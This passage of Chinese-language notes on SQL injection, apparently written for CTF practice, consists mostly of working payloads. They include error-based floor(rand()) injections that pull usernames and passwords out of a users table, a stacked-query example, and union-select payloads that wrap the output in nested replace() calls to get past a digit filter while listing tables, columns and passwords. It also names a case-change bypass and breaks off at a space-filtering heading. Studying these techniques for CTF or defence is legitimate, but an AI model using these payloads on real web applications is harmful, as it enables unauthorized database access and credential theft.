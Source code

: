 ```
?id=0' union select 1,count(*),concat_ws('-',(select group_concat(username,':','password')from users),floor(rand(0)*2)) as a from information_schema.tables group by a--+
```

```
?id=0' union select 1,count(*),concat_ws('-',(select concat(username,':','password')from users),floor(rand(0)*2)) as a from information_schema.tables group by a--+
```



## 4.堆叠注入

堆叠注入的原理就是将多条语句堆叠在一起进行执行

```
 select * from users;show databases; 
```



# 2.过滤

## 1.对数字输入有过滤

<font color=red> select 1,2,3 也可以是 select 'a','b','c'</font>

查询表名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(table_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.tables where table_schema=database()--+
```

查询列名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(column_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.columns where table_name='ctfshow_user4'--+
```

查询内容

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(password),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','L'),'7','Q'),'8','H'),'9','I'),'0','J') from ctfshow_user4--+
```

## 2.union select 过滤

大小写绕过：Union Select

## 3.空格过滤
